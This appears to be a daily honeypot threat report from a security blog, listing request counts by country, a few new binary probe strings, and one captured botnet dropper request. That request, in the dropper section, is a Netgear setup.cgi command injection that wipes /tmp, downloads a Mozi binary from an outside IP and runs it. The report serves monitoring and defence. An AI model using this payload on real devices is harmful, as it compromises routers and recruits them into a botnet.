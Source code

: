 ```yaml
---
title: "Report: 2025-08-14 "
date: 2025-08-14
desciption: "Report: 2025-08-14" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-14 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 4 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 437 requests were recorded during the day, originating from 1 different countries, with a peak of 100 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |
| HK               | Germany            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                      |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 125.45.67.106 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://125.45.67.106:51969/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                       |
|----:|----------------------:|:--------------------------------------------------------------|
| 106 |                     1 | \x00\x0E\x08\xDE\xD9\x87!~\xD1\xAC\xC4\x00\x00\x00\x00\x00    |
| 107 |                     1 | \x00\x0E8\xDE\xD9\x87!~\xD1\xAC\xC4\x00\x00\x00\x00\x00       |
| 109 |                     1 | \x00\x0E\x08\xB9y\x9A\x9E\x83\x06\xB4\xBF\x00\x00\x00\x00\x00 |
| 110 |                     1 | \x00\x0E8\xB9y\x9A\x9E\x83\x06\xB4\xBF\x00\x00\x00\x00\x00    |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   100 | US                 |
|  1 |                    95 | GB                 |
|  2 |                    88 | BG                 |
|  3 |                    32 | DE                 |
|  4 |                    23 | NL                 |
|  5 |                    23 | HK                 |
|  6 |                    11 | AU                 |
|  7 |                    11 | FR                 |
|  8 |                     9 | PL                 |
|  9 |                     8 | SC                 |
| 10 |                     6 | SG                 |
| 11 |                     4 | CN                 |
| 12 |                     4 | PT                 |
| 13 |                     4 | LT                 |
| 14 |                     3 | ZA                 |
| 15 |                     2 | MM                 |
| 16 |                     2 | BE                 |
| 17 |                     2 | TR                 |
| 18 |                     2 | KR                 |
| 19 |                     1 | IT                 |
| 20 |                     1 | ES                 |
| 21 |                     1 | KH                 |
| 22 |                     1 | MX                 |
| 23 |                     1 | BR                 |
| 24 |                     1 | RO                 |
| 25 |                     1 | JP                 |
| 26 |                     1 | UA                 |
